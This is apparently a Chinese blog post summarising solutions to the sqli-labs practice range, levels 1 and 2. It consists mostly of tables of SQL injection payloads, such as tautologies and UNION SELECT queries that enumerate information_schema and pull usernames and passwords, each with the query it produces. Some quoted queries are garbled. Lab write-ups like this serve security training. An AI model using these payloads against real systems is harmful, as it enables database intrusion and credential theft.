 ```yaml
---
layout:     post
title:      sqli_lab总结
date:       2019-2-18
author:     Wh0ale
header-img: img/1.jpg
catalog: true
tags:
    - sqli
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0azmfymnpj211x0scadu.jpg)

Sql 语句为  `$sql="SELECT*FROM users WHERE id= '$id' LIMIT0,1";`

# Less1

| 注入语句                                                     | 数据库语句                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| http://127.0.0.1/Range/sqli-labs-master/Less-1/?id=-1'  or 1=2 --+ | Select * from where id='-1'or1=1--+'LIMIT0,1                 |
| http://127.0.0.1/Range/sqli-labs-master/Less-1/?id=-1' union select 1,2--+ | Select * from where id='-1'union select 1,2 --+              |
| ?id=-1'   union select 1,group_concat(schema_name),3   from information_schema.SCHEMATA --+ | SELECT * FROM users WHERE id=’-1’union select 1,group_concat(schema _name),3  --from   information_schema.schemata--+ LIMIT 0,1 |
| ?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+ | SELECT * FROM users WHERE id=’-1’union   select 1,group_concat(table_n ame),3 from information_schema.tables where   table_schema=’security’--+ LIMIT 0,1 |
| ?id=-1'   union select 1,group_concat(column_name),3 from information_schema.columns   where table_name='users' --+ | SELECT * FROM users WHERE id=’-1’union select   1,group_concat(column _name),3 from information_schema.columns where   table_name=’users’--+ LIMIT 0,1 |
| ?id=-1'   union select 1,username,password from users where id=2 --+ | SELECT * FROM users WHERE id=’-1’union select 1,username,password   f rom users where id=2--+ LIMIT 0,1 |

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ar97l8jyj20lo06tt8p.jpg)

#  

# Less2

报错：`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`

Sql 语句为  `Select * from TABLE where id = (some integer value);  LIMIT0,1";`

第一关是 '$id'

第二关是 $id 

| 注入语句：         | 数据库语句                                         |
| ------------------ | -------------------------------------------------- |
| ?id=1   or 1=1 --+ | $sql="SELECT * FROM users WHERE id= $id LIMIT0,1"; |

 